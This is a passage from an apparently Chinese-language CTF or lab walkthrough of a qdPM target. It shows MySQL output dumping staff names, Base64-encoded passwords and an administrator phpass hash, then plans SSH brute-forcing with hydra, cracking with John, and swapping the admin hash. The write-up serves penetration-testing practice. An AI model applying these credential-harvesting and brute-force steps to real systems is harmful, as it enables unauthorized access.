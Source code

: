   ```bash
  MySQL [staff]> select * from login;
  +------+---------+--------------------------+
  | id   | user_id | password                 |
  +------+---------+--------------------------+
  |    1 |       2 | c3VSSkFkR3dMcDhkeTNyRg== |
  |    2 |       4 | N1p3VjRxdGc0MmNtVVhHWA== |
  |    3 |       1 | WDdNUWtQM1cyOWZld0hkQw== |
  |    4 |       3 | REpjZVZ5OThXMjhZN3dMZw== |
  |    5 |       5 | Y3FObkJXQ0J5UzJEdUpTeQ== |
  +------+---------+--------------------------+
  5 rows in set (0.008 sec)
  ```

- 在数据库表`staff.user`中获得一些账户信息
  
  ```bash
  MySQL [staff]> select * from user;
  +------+---------------+--------+---------------------------+
  | id   | department_id | name   | role                      |
  +------+---------------+--------+---------------------------+
  |    1 |             1 | Smith  | Cyber Security Specialist |
  |    2 |             2 | Lucas  | Computer Engineer         |
  |    3 |             1 | Travis | Intelligence Specialist   |
  |    4 |             1 | Dexter | Cyber Security Analyst    |
  |    5 |             2 | Meyer  | Genetic Engineer          |
  +------+---------------+--------+---------------------------+
  5 rows in set (0.007 sec)
  ```
* 从数据库表`qdpm.configuration`中获得管理员账号密码
  
  ```bash
  MySQL [staff]> use qdpm;
  Reading table information for completion of table and column names
  You can turn off this feature to get a quicker startup with -A
  
  Database changed
  MySQL [qdpm]> select * from configuration;
  +----+--------------------------------------+--------------------------------------------------------------------------------------------------------------------------+
  | id | key                                  | value                                                                                                                    |
  +----+--------------------------------------+--------------------------------------------------------------------------------------------------------------------------+
  |  1 | app_administrator_email              | admin@localhost.com                                                                                                      |
  |  2 | app_administrator_password           | $P$EmesnWRcY9GrK0hDzwaV3rvQnMJ/Fx0                                    
  ```

* 总结
  
  > - 获得一些职工的名字和密码，密码以`Base64`格式编码。但对应关系未知，作用未知。可尝试使用`hydra`枚举组合爆破`SSH`。[<a href="#支线一">支线一</a>]
  > 
  > - 获得管理员账号密码对，账号格式为邮箱，猜测可用于qdPM系统登录。
  >   
  >   - 考虑到管理员权限很高，优先对此信息展开进一步处理。
  >   
  >   - 此密码加密类型为`phpass`，尝试`JOHN`对此密码进行暴力破解，失败。 [<a href="#支线二">支线二</a>]
  >   
  >   - 考虑对此密码`HASH`进行替换。
